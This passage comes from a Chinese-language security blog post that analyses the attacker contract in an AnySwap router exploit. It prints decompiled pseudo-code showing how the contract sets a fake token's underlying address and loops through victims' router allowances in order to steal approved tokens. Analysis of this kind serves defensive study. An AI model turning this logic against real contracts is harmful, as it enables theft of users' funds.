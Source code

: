 ```python
      idx = idx + 1
      continue 
```

其中，slot0存储的是owner地址，slot1存储的是要攻击的AnySwapRouter的合约地址。

0x5786c926函数在etherscan上的反编译结果比较难理解，这里用一下jeb，反编译结果如下：

![image-20220127184227460](https://s3cunDa.github.io/assets/post/image-20220127184227460.png)

![image-20220127184255543](https://s3cunDa.github.io/assets/post/image-20220127184255543.png)

通过分析函数的逻辑可以大概得出这个函数的作用是提供一个通用的合约地址函数调用的接口。

函数0x5786c926逻辑比较关键，首先会检查调用者是否为owner，然后会调用第一个参数的地址的0xad5c04f函数，参数为第三个参数地址：

```python
  mem[(32 * _param2.length) + 128] = 0xad5c04f00000000000000000000000000000000000000000000000000000000
  mem[(32 * _param2.length) + 132] = _param3
  require ext_code.size(_param1)
  call _param1.0xad5c04f with:
       gas gas_remaining wei
      args _param3
  if not ext_call.success:
      revert with ext_call.return_data[0 len return_data.size]
```

这里，签名为0xad5c04f的函数名称在4bytesdatabase搜不到，但是其实这个函数签名在WE3这个合约地址里面有相应的实现：

```python
def unknown0ad5c04f(addr _param1): # not payable
  require calldata.size - 4 >= 32
  require tx.origin == stor0
  underlyingAddress = _param1
```

所以这一个调用的目的是设定伪造token的underlying地址。于是由此可以知道，param1为恶意token的地址，param3为要偷取token的合约地址。

在设定完了合约地址之后，会进入一个大循环，遍历param2这个bytes32数组的所有内容，这个数组包括了一个个的查询&攻击序列，每一次循环具体内容与逻辑如下：

1. 检查targetAccount approve给router合约的代币数量，将结果存储在mem[(32 * _param2.length) + 128]这段内存区域中

   ```python
   			mem[(32 * _param2.length) + 132] = mem[(32 * idx) + 140 len 20] //targetAccount
         mem[(32 * _param2.length) + 164] = stor1
         require ext_code.size(_param3)
         static call _param3.allowance(address owner, address spender) with:
                 gas gas_remaining wei
                args mem[(32 * _param2.length) + 132], stor1
         mem[(32 * _param2.length) + 128] = ext_call.return_data[0]
         if not ext_call.success:
             revert with ext_call.return_data[0 len return_data.size]
         require return_data.size >= 32
         require idx < _param2.length
   ```
